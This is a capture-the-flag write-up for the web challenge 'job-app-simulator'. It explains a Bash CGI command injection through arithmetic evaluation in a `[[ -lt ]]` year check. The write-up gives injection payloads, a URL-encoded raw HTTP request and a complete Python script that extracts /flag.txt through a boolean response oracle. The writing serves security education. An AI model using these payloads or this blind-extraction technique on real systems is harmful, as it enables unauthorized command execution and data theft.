

# job-app-simulator

**Category:** Web

## Description
> :blobcosyandcomfy:

## Overview
This challenge is a Bash CGI command injection hidden inside a numeric validation. The application reads user-controlled form fields from the POST body and validates `graduation_year` with `[[ "${form_data[graduation_year]}" -lt 2026 ]]`. In Bash, operands of `-lt` are parsed as arithmetic expressions, so an attacker can inject `a[$(...)]` and trigger command substitution during the numeric check.

The container stores the flag at `/flag.txt`, so command execution is enough to solve the challenge. The only missing piece is exfiltration: command output is not reflected cleanly into the page, so the solve turns the year check into a boolean oracle based on whether the response contains `Invalid graduation year`, then uses that oracle to extract `/flag.txt` character by character.

## Technical details
The CGI handler accepts `application/x-www-form-urlencoded` POST requests, decodes the body into an associative array, and then validates each field. The relevant sink is in `application.sh`:

```bash
if [[ "${form_data[graduation_year]}" -lt 2026 ]]; then
    echo "Invalid graduation year"
    return
fi
```

At first glance this looks like a normal numeric comparison, but in Bash the operands of `[[ ... -lt ... ]]` are evaluated as arithmetic expressions. Because `graduation_year` is fully user-controlled, a value such as `a[$(id>&2)]` is not treated as a plain string: the command substitution runs before Bash finishes evaluating the arithmetic expression.

A local test with that payload causes `id` output to appear in the server logs, which confirms arbitrary command execution.

The frontend does try to constrain the field with HTML:

```html
<input type="number" id="graduation_year" name="graduation_year" min="2026" required />
```

but that is only client-side validation. Sending a raw POST request to `/cgi-bin/application.sh` bypasses it completely.

The Dockerfile shows why command execution immediately reaches the flag:

```dockerfile
COPY flag.txt /
RUN chmod 777 /flag.txt
```

So the target data is simply `/flag.txt`. The issue is that a naive payload like `$(cat /flag.txt)` does not directly print the flag back in a clean way through the application response. A more reliable strategy is to turn the numeric comparison itself into a true/false side channel.

The primitive used in the solve is:

```text
a[$( CONDITION && printf '0]=3000,a[0' || printf 0)]
```

This works because the injected command substitution rewrites the arithmetic expression differently depending on whether `CONDITION` is true.

If `CONDITION` is true, the payload becomes effectively:

```text
a[0]=3000,a[0]
```

which evaluates to `3000`, so the server checks `3000 -lt 2026`, which is false. In that case the request passes the year check and returns the normal rejection message.

If `CONDITION` is false, the payload becomes effectively:

```text
a[0]
```

which evaluates to `0`, so the server checks `0 -lt 2026`, which is true. In that case the response contains `Invalid graduation year`.

That difference gives a clean boolean oracle entirely through the normal HTTP response body.

## POC
- Step 1: Confirm command substitution inside `graduation_year`.

```text
a[$(id>&2)]
```

This is enough to prove that the `graduation_year` field is being evaluated as Bash arithmetic instead of being treated as inert user input.

- Step 2: Turn the bug into a boolean oracle by checking a condition over `/flag.txt`.

```text
a[$(content=$(cat /flag.txt); c=${content:0:1}; [ "$c" = "b" ] && printf '0]=3000,a[0' || printf 0)]
```

If the first flag character is `b`, the response is the normal application-status page. Otherwise the page contains `Invalid graduation year`.

A raw request looks like this:

```http
POST /cgi-bin/application.sh HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded

first_name=a&last_name=b&email=a%40b.co&phone=123&resume=r&school=s&degree=d&graduation_year=a%5B%24%28content%3D%24%28cat+%2Fflag.txt%29%3B+c%3D%24%7Bcontent%3A0%3A1%7D%3B+%5B+%22%24c%22+%3D+%22b%22+%5D+%26%26+printf+%270%5D%3D3000%2Ca%5B0%27+%7C%7C+printf+0%29%5D&q1=on&q2=on&q3=on&q4=on&q5=on
```

- Step 3: Generalize the oracle to binary-search each character by ASCII value.

```sh
content=$(cat /flag.txt)
c=${content:POS:1}
code=$(printf %d "'${c}")
[ "$code" -le MID ]
```

Embedding that predicate into the same assignment-based payload gives a standard blind extraction loop:

1. determine the flag length
2. binary-search each character of `/flag.txt`
3. stop when the closing `}` is recovered

A working solve script for the remote instance is:

```python
import requests

BASE = "https://job-app-simulator-58ce41f067136645.b01lersc.tf"
COMMON = {
    "first_name": "a",
    "last_name": "b",
    "email": "a@b.co",
    "phone": "123",
    "resume": "r",
    "school": "s",
    "degree": "d",
    "q1": "on",
    "q2": "on",
    "q3": "on",
    "q4": "on",
    "q5": "on",
}

sess = requests.Session()


def oracle(condition: str) -> bool:
    payload = f"a[$({condition} && printf '0]=3000,a[0' || printf 0)]"
    data = dict(COMMON)
    data["graduation_year"] = payload
    r = sess.post(BASE + "/cgi-bin/application.sh", data=data, timeout=20)
    r.raise_for_status()
    return "Invalid graduation year" not in r.text


lo, hi = 0, 128
while lo < hi:
    mid = (lo + hi) // 2
    if oracle(f"content=$(cat /flag.txt); [ ${{#content}} -le {mid} ]"):
        hi = mid
    else:
        lo = mid + 1
length = lo
print("length =", length)

flag = []
for pos in range(length):
    lo, hi = 32, 126
    while lo < hi:
        mid = (lo + hi) // 2
        condition = (
            f"content=$(cat /flag.txt); "
            f"c=${{content:{pos}:1}}; "
            f"code=$(printf %d \"'${{c}}\"); "
            f"[ \"$code\" -le {mid} ]"
        )
        if oracle(condition):
            hi = mid
        else:
            lo = mid + 1
    flag.append(chr(lo))
    print(f"{pos:02d}: {''.join(flag)}")

print("FLAG =", ''.join(flag))
```

- Step 4: Run the extractor against the challenge and recover the remote flag.




```text
FLAG = bctf{:blobcoldanduncomfy:_286cacab}
```


## P/S
The important subtlety is that this is not blocked by the browser-side `type="number"` and `min="2026"` attributes. The vulnerability lives entirely in the server-side Bash CGI script, and a normal handcrafted POST request is enough to reach it.
